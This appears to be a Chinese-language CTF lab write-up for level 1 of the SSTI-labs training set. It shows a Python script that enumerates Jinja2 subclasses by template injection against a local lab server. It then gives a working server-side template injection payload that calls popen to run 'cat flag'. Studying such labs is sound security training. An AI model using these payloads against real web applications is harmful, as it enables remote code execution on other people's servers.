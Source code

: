 # [实战刷题](#toc__11)

## [SSTI-labs](#toc_ssti-labs)

GitHub 链接  
[https://github.com/X3NNY/sstilabs](https://github.com/X3NNY/sstilabs)

### [level 1](#toc_level-1)

这关显示未设置过滤  
此时就可以尝试利用的 payload 进行 RCE  
常见的思路就是找类，找类的基类，找基类的子类，然后找可以 RCE 的模块  
我们这里的话，还是用`os._wrap_close`这个类，  
把之前的脚本改一下就可以寻找这个类了

```bash
import requests

headers = {
    'User-Agent':'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/104.0.0.0 Safari/537.36'}
for i in range(500):
    url = "http://192.168.134.132:5000/level/1"
    data={"code":'{{().__class__.__bases__[0].__subclasses__()['+str(i)+']}}'}
    res = requests.post(url=url,data=data, headers=headers)
    #print(res.text)
    if 'os._wrap_close' in res.text:
        print(i)
```

[![在这里插入图片描述](assets/1698900310-e77873bd3b1a6087bc9c5af7928ba843.png)](https://storage.tttang.com/media/attachment/2022/08/14/2a523036-25f4-4d4d-8145-397147885da5.png)  
因此我们这里构造 payload 如下

```bash
{{"".__class__.__bases__[0]. __subclasses__()[133].__init__.__globals__['popen']('cat flag').read()}}
```

[![在这里插入图片描述](assets/1698900310-aa741ff5d1ba25b27fad32a0b6283c4c.png)](https://storage.tttang.com/media/attachment/2022/08/14/a8e2d4e1-0947-4cef-b6ba-66d744900879.png)
